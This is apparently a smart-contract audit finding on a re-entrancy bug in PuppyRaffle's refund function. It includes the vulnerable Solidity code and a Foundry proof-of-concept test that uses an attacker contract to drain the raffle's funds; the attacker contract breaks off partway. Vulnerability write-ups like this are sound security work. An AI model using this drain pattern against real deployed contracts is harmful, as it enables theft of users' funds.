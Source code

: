 ## [H-1] Classic Re-entrancy allowing attackker contract to drain the wallet.

**Description:**
The `PuppyRaffle::refund` replaces the player index with address zero "after" the money has been sent to the player.

**Impact:**
All fees in the Raffle could be drained

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

A player who entered the raffle can have a `fallback`, `receive` function that re-enters the `puppleRaffe::Refund` function and keep calling it till thw wallet is drained

**Proof of Concept:**

```javascript
    //ADDED REENTRANCY TESTS
        function testReEntrancyRefund() public {

        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        //attack
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("start attacker bal", startingAttackContractBalance);
        console.log("start contract bal", startingContractBalance);


        console.log("ending attacker bal", address(attackerContract).balance);
        console.log("ending contract bal", address(puppyRaffle).balance);


    }


contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;
```